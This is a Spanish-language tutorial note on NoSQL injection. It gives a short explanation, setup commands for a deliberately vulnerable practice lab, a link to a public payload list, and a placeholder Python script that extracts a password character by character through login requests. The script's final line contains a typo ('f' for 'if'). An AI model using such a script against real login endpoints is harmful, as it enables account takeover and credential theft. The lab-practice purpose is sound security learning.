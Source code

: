 
Las **inyecciones NoSQL** son una vulnerabilidad de seguridad en las aplicaciones web que utilizan bases de datos NoSQL, como MongoDB, Cassandra y CouchDB, entre otras. Estas inyecciones se producen cuando una aplicación web permite que un atacante envíe datos maliciosos a través de una consulta a la base de datos, que luego puede ser ejecutada por la aplicación sin la debida validación o sanitización.

La inyección NoSQL funciona de manera similar a la inyección SQL, pero se enfoca en las vulnerabilidades específicas de las bases de datos NoSQL. En una inyección NoSQL, el atacante aprovecha las consultas de la base de datos que se basan en **documentos** en lugar de tablas relacionales, para enviar datos maliciosos que pueden manipular la consulta de la base de datos y obtener información confidencial o realizar acciones no autorizadas.

A diferencia de las inyecciones SQL, las inyecciones NoSQL explotan la falta de validación de los datos en una consulta a la base de datos NoSQL, en lugar de explotar las debilidades de las consultas SQL en las **bases de datos relacionales**.

---------------------------

Para Practicar

[NoSQLI - Lab](https://github.com/Charlie-belmer/vulnerable-node-app)

```bash
git clone https://github.com/Charlie-belmer/vulnerable-node-app
cd vulnerable-node-app
docker-compose up -d
```

Web en **localhost:4000** y para agregar usuarios click en **Populate / Reset DB** y a practicar.

[NoSQLI - PayloadsAllTheThing](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)

ejemplo de script en python

```python
#!/usr/bin/python3
from pwn import *
import requests, time, sys, signal, string

def def_handler(sig, frame):
	print("<mensaje_saliendo>")
	sys.exit(1)

#Ctrl+C
signal.signal(signal.SIGINT, def_handler)

login_url = "<url_a_explotar>"
characters = string.ascii_lowercase + string.ascii_uppercase + string.digits

def makeNoSQLI():
	password = ""

	p1= log.progress("Inyeccion")
	p1.status("Iniciando Inyeccion")

	time.sleep(2)

	p2 = log.progress("Password")

	for position in range(0, 100):
		for c in characters:

			post_data = '<data_post>'

			p1.status(post_data)

			headers = {<Header>}
		
			r = requests.post(login_url, headers=headers, data=post_data)

			if "<mensaje_respuesta>" in r.text:
				password += c
				p2.status(password)
				break

f __name__ == '__main__':

	makeNoSQLI()
```





